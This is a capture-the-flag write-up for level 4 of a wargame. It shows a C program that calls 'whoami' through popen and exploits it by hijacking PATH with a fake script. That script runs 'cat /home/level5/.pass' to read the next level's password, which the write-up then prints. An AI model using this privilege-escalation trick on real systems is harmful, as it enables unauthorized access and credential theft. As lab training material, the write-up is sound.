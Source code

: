 ## Level 4:

The code for the program is simple:

```c
  1 //writen by bla
  2 #include <stdlib.h>
  3 #include <stdio.h>
  4 
  5 int main() {
  6         char username[1024];
  7         FILE* f = popen("whoami","r");
  8         fgets(username, sizeof(username), f);
  9         printf("Welcome %s", username);
 10 
 11         return 0;
 12 }
 13
```

We can see it opening a process and calling a command **whoami**. This is normally safe but we can change what **whoami** stands for by changing the path it looks for the command. We can create a file in /tmp directory.

```console
level4@io:/tmp$ mkdir A
level4@io:/tmp$ cd A
level4@io:/tmp/A$ export PATH=/tmp/A:$PATH
level4@io:/tmp/A$ vim whoami
```

First I created a directory (optional), added the directory to the **PATH** and created a whoami file containing the script I want to be run as **level5** :

```shellscript
<!-- whoami -->
1 #!/bin/sh
2 
3 cat /home/level5/.pass
```

After saving it, just execute the level04 program.

```console
level4@io:/tmp/A$ chmod ou+x whoami
level4@io:/tmp/A$ ../../levels/level04
Welcome DNLM3Vu0mZfX0pDd
level4@io:/tmp/A$ 
```


<!-- Level 5 password => DNLM3Vu0mZfX0pDd -->